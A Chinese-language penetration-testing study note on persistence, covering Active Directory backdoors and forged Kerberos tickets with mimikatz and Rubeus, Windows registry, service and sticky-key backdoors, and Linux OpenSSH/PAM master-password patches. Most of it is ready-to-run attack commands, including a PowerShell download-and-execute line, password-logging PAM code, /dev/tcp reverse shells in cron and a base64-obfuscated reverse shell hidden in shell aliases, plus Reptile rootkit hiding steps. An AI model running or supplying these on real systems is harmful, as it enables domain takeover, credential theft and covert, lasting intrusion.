

# D05 · 权限维持

> 来源：小迪安全内网笔记（2026-11-20 从 E 域总览切出）。原先是 `E-内网与域/01` 里的一节，但"维持"属于 D 域——E 域六个单元里没有这一项。
> **本库的用法与红队不同**：做维持不是为了长期潜伏，是**证明危害能落地**。能维持，说明这个入口不是一次性的；被终端拦掉的截图不能当危害证明。
> 每个手法只记三件事：**留了什么、在哪看得见、复测时怎么确认还在**。看得见的部分见 [[D06-日志与告警反推]]。
> 上限：Web / 服务·计划任务 / 票据三类够用，不碰固件级与隐蔽通道。

---

## 内网AD域

### SSP注入

- AD域

  - privilege::debug

  - misc::memssp

- 查看账号密码

  - C:\Windows\System32\mimilsa.log 记录登录的账号密码

- 技术总结：

  攻防实战中，靶机很难会重启，攻击者重启的话风险过大，

  因此可以在靶机上把两个方法相互结合起来使用效果比较好，

  尝试利用把生成的日志密码文件发送到内网被控机器或者临时邮箱。

### SID历史后门

- 获取某用户SID属性：
  - Import-Module ActiveDirectory
  - Get-ADUser webadmin -Properties sidhistory
- 给予某用户administrator属性：
  - privilege::debug
  - sid::patch
  - sid::add /sam:webadmin /new:administrator
- 测评给与前后的DC访问权限（目标机）：
  - dir \\192.168.3.21\c$
- 技术总结：
  - 把域控管理员的SID加入到 其他某个恶意的域账户的SID History中，然后，这个恶意的（我们自己创建的）域账户就可以域管理员权限访问域控了，不修改一直存在。

### Skeleton钥匙

- 连接DC后，DC注入lsass进程
  - mimikatz：
  - privilege::debug
  - misc::skeleton
- 重新测试域内某个用户与DC通讯
  - net use \\owa2010cn-god\ipc$ "mimikatz" /user:god\administrator
  - dir \\owa2010cn-god\c$
- 技术总结：
  - 因为Skeleton Key技术是被注入到lsass.exe进程的，所以它只存在内存中，如域控重启，万能密码将失效。

### DSRM还原后门

- 获取dsrm及krbtgt的NTLM hash（AD域）
  - privilege::debug
  - lsadump::lsa /patch /name:krbtgt
  - token::elevate
  - lsadump::sam
- dsrm&krbtgt&NTLM hash同步（AD域）
  - ntdsutil：打开ntdsutil
  - set DSRM password：修改DSRM的密码
  - sync from domain account 域用户名字：使DSRM的密码和指定域用户的密码同步
  - q(第1次)：退出DSRM密码设置模式
  - q(第2次)：退出ntdsutil
  - 修改dsrm登录方式
    - New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD

- 利用PTH传递攻击
  - privilege::debug
  - sekurlsa::pth /domain:owa2010cn-god /user:administrator /ntlm:b097d7ed97495408e1537f706c357fc5
  - dir \\owa2010cn-god\c$

- 技术总结：
  - 利用系统自带机制模式DSRM，修改DSRM默认登录方式和属性，通过其同步krgtgt进行PTH攻击，实现持续化控制，但适用于系统=>windows server2008。每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。

### 票据

##### 黄金票据

- 前提-获得sid、nthash、aes256和或aes128（对于dc上）

  - privilege::debug

    lsadump::lsa /inject /name:krbtgt

    wmic useraccount get Caption,sid

- 删除票据

  - kerberos::purge

- 注入票据

  - \#NTLM

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

    \#aes256

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

    \#aes128

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes128:c7ae2a311bdd5803646f9a98351c31e6 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

##### 白银票据

- 前提-获得目标机hostname、sid、nthash

  - privilege::debug

    sekurlsa::logonpasswords（找到对应目标机的nthash）

- 注入白银票据

  - kerberos::golden /sid:S-1-5-21-202412995-3582062751-167045153 /domain:rootkit.org /target:SRV-WEB-KIT.rootkit.org /service:cifs /rc4:d285659bb8946c7ca26391b24a6ef567 /user:1111 /ptt

##### 钻石票据

- 前提-普通用户账号密码、krbtgt的aes256

  - privilege::debug

    lsadump::dcsync /domain:god.org /user:krbtgt

- 请求ticket

  - Rubeus.exe asktgt /aes256:5a75bb9a4fc4453c66621a54af111884f45bbca6365bf4d81bc059f31e708827 /user:webadmin /password:admin!@#45 /domain:god.org /dc:owa2010cn-god.god.org /ptt /nowrap

- 注入钻石票据

  - Rubeus.exe asktgs /ticket:$ticket /service:cifs/owa2010cn-god.god.org /ptt /nowrap

##### 蓝宝石票据

- 前提-普通用户账号密码，目标机sid，krbtgt的aesKey或nthash
  - lsadump::dcsync /domain:rootkit.org /user:krbtgt
- 注入票据
  - python ticketer.py -request -impersonate 'administrator' -domain 'rootkit.org' -user 'micle' -password 'Admin12345' -aesKey '3e65833fc9930ea83015501ec30c161da401faf6cfed9.....' -domain-sid 'S-1-5-21-3759881954-2993291187-3577547808' -nthash 'c3d5042c67ef5f461d0ba6ecdd9ea449' 'xiaodi'
- 连接用户
  - kerberos::ptc xiaodi.ccache

### 差异

黄金票据：能控制所有服务协议资源，但容易被安全设备捕获（伪造票据）

白银票据：只能控制指定服务协议资源，但不容易被安全设备捕获（伪造票据）

钻石票据：利用条件增多，权限维持更持续，更不容易被安全设备捕获（真实票据）

蓝宝石票据：利用条件增多，权限维持更持续，更难被安全设备捕获（真实票据）

## Windows主机后门

- 主要思路是修改注册表

### 自启动

- 自启动路径加载-将shell文件放在以下目录

  C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

- 自启动服务加载

  - 创建ServiceTest 服务
    - sc create ServiceTest binPath= C:\8888.exe  start= auto
  - 删除服务
    - sc delete ServiceTest

- 自启动注册表加载

  - -当前用户键值

    HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 

  - -服务器键值（需要管理员权限）

    HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 

  - -添加启动项

    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\8888.exe"

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\8888.exe"

- 计划计时任务-定时执行命令，可选择执行频率

  - schtasks /create /tn "RunXD" /tr "C:\8888.exe" /sc daily /st 12:50

- 组策略bat

  - 使用gpedit.msc

  - 用户配置--》Windows设置--》脚本登录

    - 浏览修改bat文件

    - 文件内容为:

      - cmd C:\8888.exe

        C:\8888.exe

    

### 粘滞键后门

- 粘滞键位置：
  - c:\windows\system32\sethc.exe
- 修改命令将setch命令替换为cmd
  - 修改权限：takeown /f C:\Windows\System32\sethc.exe
  - 移动备份：move sethc.exe sethc1.exe
  - 替换劫持：copy cmd.exe sethc.exe

### 文件映像劫持

- 执行notepad成cmd或后门
  - REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
- 配合GlobalFlag隐藏：在运行中执行目标命令
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\8888.exe"

### 其它

- 用户登录或远程终端登录
  - REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\8888.exe,"
- 屏幕保护
  - reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\8888.exe" /f
- Logon Scripts登录
  - 本地目录
    - reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\8888.exe"
  - 远程下载
    - reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.13.143:80/a'))\""

## Linux

### OpenSSH后门

- 环境准备：
  - yum -y install openssl openssl-devel pam-devel zlib zlib-devel    
  - yum -y install gcc gcc-c++ make                                   
  - wget http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
  - wget https://mirror.aarnet.edu.au/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
  - tar -xzvf openssh-5.9p1.tar.gz 
  - tar -xzvf 0x06-openssh-5.9p1.patch.tar.gz
  - cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
  - cd openssh-5.9p1 && patch < sshbd5.9p1.diff
- 编辑密码：
  - vim includes.h
  - 177 #define ILOG "/tmp/ilog"#ILOG是别人用ssh登录该主机记录的日志目录
  - 178 #define OLOG "/tmp/olog"#OLOG是该主机用ssh登录其他主机记录的日志目录 
  - 179 #define SECRETPW "**password**"#万能密码
  - 180 #endif /* INCLUDES_H */
- 安装编译：
  - ./configure --prefix=/usr  --sysconfdir=/etc/ssh  --with-pam  --with-kerberos5  && make && make install
  - service sshd restart   #重启sshd服务
  - systemctl status sshd.service #查看ssh启动状态

- ssh连接
  - ssh 用户名@IP
  - ssh yjw858857136@192.168.1.8

### PAM启用替换

1、获取目标系统所使用的PAM版本，下载对应版本的pam版本

2、解压缩，修改pam_unix_auth.c文件，添加万能密码

3、编译安装PAM

4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即使用万能密码登陆，将用户名密码记录到文件中。

- 配置环境

  - 关闭selinux setenforce 0
  - 查询版本 rpm -qa | grep pam
  - wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
  - tar -zxvf Linux-PAM-1.1.8
  - yum install gcc flex flex-devel -y

- 修改配置：

  留PAM后门和保存SSH登录的账号密码

  - 修改 Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c

    /* verify the password of this user */

    retval = _unix_verify_password(pamh, name, p, ctrl);

    if(strcmp("**password**",p)==0){return PAM_SUCCESS;}    //后门密码

    ​    if(retval == PAM_SUCCESS){    

    ​           FILE * fp;    

    ​           fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置

    ​           fprintf(fp, "%s : %s\n", name, p);    

    ​           fclose(fp);} 

    name = p = NULL;

     

    AUTH_RETURN;

- 编译安装：

  - ./configure && make
  - -备份复制：
  - 备份原有pam_unix.so,防止出现错误登录不上
  - 复制新PAM模块到/lib64/security/目录下 
  - cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bakcp
  - cd Linux-PAM-1.1.8/modules/pam_unix/.libs
  - cp pam_unix.so /usr/lib64/security/pam_unix.so

- ssh连接

  - ssh 用户名@IP
  - ssh yjw858857136@192.168.1.8

  

- 配合软链接

  - 在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。
  - SSH配置中开启了PAM进行身份验证
  - 查看是否使用PAM进行身份验证：
  - cat /etc/ssh/sshd_config|grep UsePAM
  - ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
  - ssh yjw858857136@192.168.1.8 -p 8888 密码随意输入即可登录

### 密钥对

- 利用前提-开启密钥对支持：
  - vim /etc/ssh/sshd_config-开启以下配置
    - RSAAuthentication yes
    - PubkeyAuthentication yes
    - AuthorizedKeysFile .ssh/authorized_keys
- 攻击机生成本地密钥
  - ssh-keygen -t rsa #三次回车
  - id_rsa : 私钥
  - id_rsa.pub : 公钥
  - cat id_rsa.pub 将内容复制到目的机的authorized_keys
- 复制攻击机公钥到目的机
  - cd /root/.ssh/
  - vim authorized_keys(id_rsa.pub内容)
  - chmod 600 authorized_keys
- 攻击机直接用ssh协议连接目的机

### 后门账号

- 添加账号test1，设置uid为0，密码为123456
  - useradd -p `openssl passwd -1 -salt 'salt' 123456` test1 -o -u 0 -g root -G root -s /bin/bash -d /home/test1

### Cron后门

- 目标机编辑后门反弹

  - vim /etc/.xiaodi.sh
  - bash -i >& /dev/tcp/192.168.1.8/3333 0>&1
  - chmod +x /etc/.xiaodi.sh

- 目标机添加定时任务

  - vim /etc/crontab
  - */1 * * * * root /etc/.xiaodi.sh

- 攻击机监听

  - nc -lvvp 3333

- strace后门

  strace是一个动态跟踪工具，它可以跟踪系统调用的执行。

  我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围

- 记录sshd明文

  - (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

- 每次登录后可使用以下命令查看

  - grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

- 记录sshd私钥

  - (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)
  - grep 'PRIVATE KEY' /tmp/.sshd.log

- alias后门

  alias命令的功能：为命令设置别名

- 替换例子

  - 定义：alias ls='ls -al'
  - 删除：unalias ls
  - 每次输入ls命令的时候都能实现ls -al

- 简单-将ls替换为ls+反弹shell命令：

  - alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.1.7/4444 0>&1; };alerts'

- 升级：

  - 使用python编译编码后的反弹shell命令
    - alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xLjciLCA5OTk5KSkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDApCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAxKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMikKICAgICAgICBwID0gc3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsICItaSJdKQogICAgZXhjZXB0IEV4Y2VwdGlvbiBhcyBlOgogICAgICAgIGV4aXQoKQ=='\'')))";};alerts'
  - alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'
  - alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'

- 持久化+隐藏：重启依旧生效

  - vim /etc/upload
  - vim ～/.bashrc
  - if [ -f /etc/upload ]; then
  - . /etc/upload
  - fi

## Rootkit后门

- 在目标机上传控制的Rootkit后门

## Window

## Linux

- 目标机安装命令

  - cd Reptile-2.0/ 

  - chmod +x ./setup.sh

  - ./setup.sh install 

- 隐藏目标文件he

  - 命名文件时代入reptile，如 reptile_shell

- 隐藏shell进程

  - ps -ef 查看shell进程PID
  - /reptile/reptile_cmd hide PID

- 隐藏外连ip

  - netstat -anpt
  - /reptile/reptile_cmd tcp IP port hide

- 其中还可以使用进阶的client连接

  - 首先在目标机安装时将reverse shell设为控制端IP
  - 在控制端安装client
